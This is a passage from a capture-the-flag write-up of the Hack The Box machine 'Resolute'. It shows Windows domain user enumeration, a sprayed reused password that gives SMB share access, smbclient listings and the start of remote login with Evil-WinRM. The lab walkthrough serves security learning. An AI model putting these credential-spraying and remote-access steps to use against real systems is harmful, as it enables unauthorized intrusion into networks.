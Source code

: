 ```text
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x457
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
```

Hmm...so the user `marko` has no home drive or profile path, and has never logged on. Maybe the user was only created on the domain but has no local account? 

## Initial Foothold

I tried using the creds for `marko` to enumerate SMB but got nothing back. I then tested his password with the users `ryan` and `melanie` and was able to get a share listing with `melanie:Welcome123!`Thank you password reuse!

```text
zweilos@kalimaa:~/htb/resolute$ smbclient -U melanie -L //10.10.10.169/
Enter WORKGROUP\melanie's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Next, I tried connecting to each of the shares. We only see the standard Windows domain shares, nothing out of the ordinary. Only `NETLOGON` and `SYSVOL` allowed `melanie` to log in, but neither contained anything useful. `SYSVOL` had more folders to browse through, but still nothing useful.

```text
zweilos@kalimaa:~/htb/resolute$ smbclient -U melanie //10.10.10.169/NETLOGON Welcome123!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 25 09:28:21 2019
  ..                                  D        0  Wed Sep 25 09:28:21 2019

                10340607 blocks of size 4096. 7555454 blocks available
```

## Road to User

Since `melanie` is a member of the `Remote Management Users` group, I tried to log in through Windows Remote Management using the `Evil-WinRM` tool, which can be found at [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm).
